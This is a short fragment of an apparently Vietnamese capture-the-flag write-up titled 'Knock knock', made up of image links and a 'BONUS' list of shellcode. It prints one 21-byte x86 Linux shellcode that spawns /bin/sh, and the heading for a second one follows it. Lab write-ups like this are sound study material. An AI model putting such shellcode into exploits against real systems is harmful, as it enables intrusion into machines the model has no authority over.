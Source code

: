 ![Untitled](Knock%20knock%200fd187fb6e7f4817a31d17bfc775bf0d/Untitled%2047.png)

Và xong

# BONUS

Đây cũng là một số shell có thể sử dụng

1. Shell 1

```python
shellcode = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
```

1. Shell 2 (21 bytes)
